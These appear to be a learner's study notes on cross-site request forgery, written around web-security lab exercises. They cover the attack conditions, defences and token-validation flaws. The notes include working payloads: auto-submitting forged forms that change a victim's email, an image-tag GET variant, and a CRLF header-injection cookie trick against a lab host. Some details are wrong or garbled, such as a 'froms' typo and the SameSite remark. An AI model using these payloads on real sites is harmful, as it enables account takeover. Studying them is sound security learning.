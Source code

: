 Means - cross site request forgery.

This vulnerability allows the attacker to perform actions that the users did not intend to perform.
As the name suggests cross-site meaning interaction between two sites is possible when attacker circumvents same origin policy.

That is a flag you sometimes see when inspecting http requests in network traffic for web apps.
For example something like this `Referrer Policy - strict-origin-when-cross-origin` and all else.

The example of an attack could be tampering with the url and requesting actions with parameters that are vulnerable.
Consequences of this vulnerability can be for example, account takeover via email change/ password change and in worst scenario when admin account is compromised to take full control of the said web app.


#### This attack is only possible if these conditions are met:

- A relevant action - a goal in mind that this vuln can achieve - like the examples before - psw change etc..
- Cookie session handling - If there are no other mechanisms in place that identify the user who sent the request - if only the cookie is an identifier.
- No unpredictable request parameters - In short - if you need a piece of information to perform an attack that is not available to you, then it's not really vulnerable (at least for impact).


So an example of a function that meets the conditions of being vulnerable to CSRF.
To make that action user makes a http request like this...

```http
POST /email/change HTTP/1.1 Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

We got:
- A relevant action - email that is connected to an account.
- Cookie session handling - the cookie is the only identifier of the request sender.
- No unpredictable request params - only the email is a request parameter - in this case we choose a new email to attach to the account (i think).


When we determine this, we can construct a web page with the following contents:
```html
<html>
<body>
<form action="https://vulnerable-website.com/email/change" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

If a victim visits the attackers web page this is what happens:
- The attackers page will trigger an http request to the vulnerable site.
- If the user is already logged in to the vulnerable site the browser will automatically fill in the cookie in the request (if SameSite cookies are used).
- The vulnerable site will process the request as usual as if the proxy attacker page doesn't even exist and change the email of the account.

Now if the user can authenticate without action along side the cookie such as basic HTTP auth and cert based auth.
The site is still vulnerable because that data is passed alongside cookie without user interaction.

#### Practical lab

The lab had a app vulnerable to the CSRF of course and the solution was to utilize discussed forged html which contains url for email change to the vulnerable web app with correct http method and our attacker email as a payload, which is all send after we deploy this html on our server and user visits the web page, then the email is updated to our email.

Note.
If the app is vulnerable to csrf and it's possible to change email via GET request you don't need to setup an malicious  proxy server with html, the exploit will work with just a tampered url, exactly the same how a reflected XSS can be stored in url.
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">` 

####  Defense against CSRF

- CSRF Token - is a unique value, generated by the server and shared with the client - when performing a sensitive task the client must include the CSRF token. 
- SameSite cookies - Is a browser feature that stops requests with cookies that originate from other sites. 
- Referer-based validation - This is an http header `Referer`, which verifies that the request originates from the applications own domain, less effective than csrf token.

**Csrf tokens can be included in the malicious html**
```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
<label>Email</label>
<input required type="email" name="email" value="example@normal-website.com"> 
<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
<button class='button' type='submit'> Update email </button>
</form>
```

After submitting this form the following request is sent.
```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

CSRF tokens don't have to be sent in a POST request some applications place tokens in http headers.
The way in which the token is sent impacts the security of it.

#### Flaws in CSRF Tokens

- Some applications validate the token when request uses `POST` method but fail to do so with `GET` method.
**LAB** - Exploit the flawed CSRF token validation by using a different http request method.

- In some cases token validation fails if the token is omitted, in this situation the attacker removes the entire parameter, not just the value.
**LAB** - Exploit the flawed CSRF token validation by omitting the token parameter.

- Token is not tied to user session - tokens are compared to the pool of all tokens and the attacker uses their own token when attacking others account.
- Additionally this can be abused across the domain by setting cookies on a different part of the domain - that is if the cookie scope encapsulates it.
**LAB** - Make your own CSRF token and utilize it to change email of other account.

- Token is tied to a non session cookie - this can happen when app uses different frameworks for sessions and CSRF protection.
**LAB** - Getting 504 err, but I think we utilize...

- Token is duplicated in a cookie - in this case attacker only has to invent a token that is in somewhat correct format - actual token is passed in a cookie.
**LAB** - Getting 504 err, but I think we utilize.


```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

**LAB** - change email address of victim bypass double submit defense. Token is duplicated in cookie.
Utilize a search parameter to inject a http header.
And using exploit server change the password.
The only thing that matters is that the CSRF token and CSRF cookie match.

The http header injection happens because the http request is dynamically generated with parameters from the URL request.

```http
GET /?search=test%0d%0aMyHeader:%20MyValue HTTP/1.1
```

This is an example of http header injection.
We have newline after "test" and space, those are the URL encoded characters.
Using this header injection we can set the cookie value of the CSRF token to something simple.
And the reuse that CSRF token value for the body of the request.

```html
<html>
	<body>
	<script>history.pushState('','','/')</script>
		<form action="change_email_url" method="POST">
		<input type="hidden" name="email" value="test3&#64;test&#46;ca" />
		<input type="hidden" name="csrf" value="test" />
		<input type="submit" value="Submit request" />
		<img src="url_with_http_header_injection" onerror="document.froms[0].submit()">
	</body>
</html>
```

```html
<html>
	<body>
	<script>history.pushState('','','/')</script>
		<form action="https://0af000340469358a8115664d00d600ad.web-security-academy.net/my-account/change-email" method="POST">
		<input type="hidden" name="email" value="test3&#64;test&#46;ca" />
		<input type="hidden" name="csrf" value="test" />
		<input type="submit" value="Submit request" />
		<img src="https://0af000340469358a8115664d00d600ad.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf-test" onerror="document.froms[0].submit()">
	</body>
</html>
```